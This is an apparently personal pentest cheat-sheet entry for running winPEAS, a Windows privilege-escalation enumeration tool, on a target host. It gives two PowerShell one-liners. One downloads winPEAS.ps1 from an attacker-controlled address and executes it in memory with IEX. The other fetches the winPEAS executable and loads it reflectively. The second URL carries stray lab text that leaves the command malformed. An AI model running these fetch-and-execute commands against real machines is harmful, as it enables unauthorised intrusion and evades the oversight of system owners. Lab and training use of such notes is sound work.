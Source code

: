 # winpeas

#plateform/windows #target/local #cat/RECON #tag/powershell

## ps1 - oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_winpeas_path>winPEAS.ps1') | IEX
```


## exe - oneliner
https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```powershell
$url="http://<local_ip>:<port|80>/<dl_winpeas_path>winPEASany_ofs.exeDESKTOP SUPPORT@RASTALABS.LOCAL";$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
``` 

= dl_winpeas_path: windows/